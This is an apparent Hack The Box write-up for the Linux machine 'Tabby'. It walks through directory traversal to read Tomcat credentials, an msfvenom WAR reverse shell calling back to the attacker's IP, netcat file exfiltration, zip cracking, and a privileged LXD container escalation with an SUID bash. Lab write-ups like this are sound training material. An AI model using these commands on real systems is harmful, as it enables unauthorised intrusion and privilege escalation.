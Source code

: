 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: true
---
```


![](/assets/Tabby/Tabby.png)

## Summary
- **Tabby** is a **linux** machine hosting both **Apache web server** and **Tomcat**.
- The website on port 80 had a **Directory Traversal vulnerability** which enabled us to **read a Tomcat configuration file** which **contained valid credentials.**
- *Using those,* we **get a user with enough privileges to upload a WAR file containing a reverse shell**. *And, with it*, we **access the box** as the `tomcat` user.
- We find an **encrypted backup archive in the webroot**. We **crack it** with `john` to **get a password.**
- The password was *being reused* by another user on the box (`ash`) who happened to be **a member of the `lxd` group.**
- We **escalate our privileges** to `root` by **creating a specially-configured container**.

---

## NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`nmap` gives us areas to check:
- the **website on port 80**
- and the **Tomcat instance on port 8080**
- **SSH** would come in handy if we get any creds

## Port 80
The home page here was mostly **static content**.

![](/assets/Tabby/homepage-port-80.jpg)

*except for* the **link for the "News" page.**

note: *on the link below*, notice *how the host name changed* to **"megahosting.htb"**

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` will take care of this **Virtual Host Routing**

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles **a parameter** called `file`. this looks like a **file inclusion vulnerability.**

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going **4 directories back** with `../../../../` gets us the **confirmation** we need.

![](/assets/Tabby/lfi-confirmed.jpg)

*after a couple of tries to get the path right,* we are able to **get the source code** of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a **Directory/Path Traversal vulnerability** and **not a Local File Inclusion.**

that's because `fopen` just **reads a file's contents**. it **doesn't evaluate PHP code** like `include` or `require`

***Knowing this bit spares us the effort of trying to get code execution by including PHP.***

## Reading Sensitive Files
*As a quick check,* we try to read the `ash` user's **private SSH key** (`/home/ash/.ssh/id_rsa`). But it's *not that easy* :)

We then think "maybe we should take a look at tomcat before diving any deeper here". Just in case..

![](/assets/Tabby/tomcat-homepage.jpg)

We get some **decent information** from this page. the **webroot** and **where Tomcat is installed.**

*But, when it comes to sensitive files,* there's **a very important one** called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

We found it there and got **creds for a user** with **very nice privileges** :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

## Exploiting our Tomcat Privileges for RCE
The `manager-script` role has access to **upload WAR files.**

to abuse this, we will generate a **WAR reverse shell** with `msfvenom`

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

then **upload the WAR file** using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

and `curl` the endpoint to hit and trigger our reverse shell

```bash
curl http://tabby:8080/shell
```

![](/assets/Tabby/shell-as-tomcat.jpg)

we're in as `tomcat` :)

## Pivoting with Password Reuse

*Right after improving our shell,* we start with **checking the files** in `/var/www/html`

there was a folder called `files`. It contained a **password-protected zip archive** that was **owned by** the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we **transfer it over** to our kali using `netcat` so we can **crack** it

```bash
# on tabby
nc -lvnp 5000 < 16162020_backup.zip
# on our kali
nc tabby 5000 > ash_backup.zip
```

*and, to verify that the file wasn't corrupted in-transit,* we do a quick **integrity check** using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to **get a hash** for `john` to crack.

![](/assets/Tabby/zip-password.jpg)

it successfully cracked. but we *didn't find anything important* within the archive itself.

![](/assets/Tabby/zip-files.jpg)

the files were practically ***the same as the original ones.***

*But, since we now had a password,* we tried it against `ash` and `root`

didn't work with `root`, but **did** with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

## LXD Privilege Escalation
*As you may have noticed from the previous image,* `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

this is *almost exactly the same situation* as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one *minor difference* is that **we have to initialize the LX daemon** with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as *it's not there by default.*

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

*for a bit of automation,* we're going to throw the commands into a **bash script**. here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

*after getting the container root shell,* we add an **SUID bit** to the host's **bash shell** so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

## Cleaning Up

*To clear away remnants,* we have to **stop the container**, **delete it** along with **the image we imported.**

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)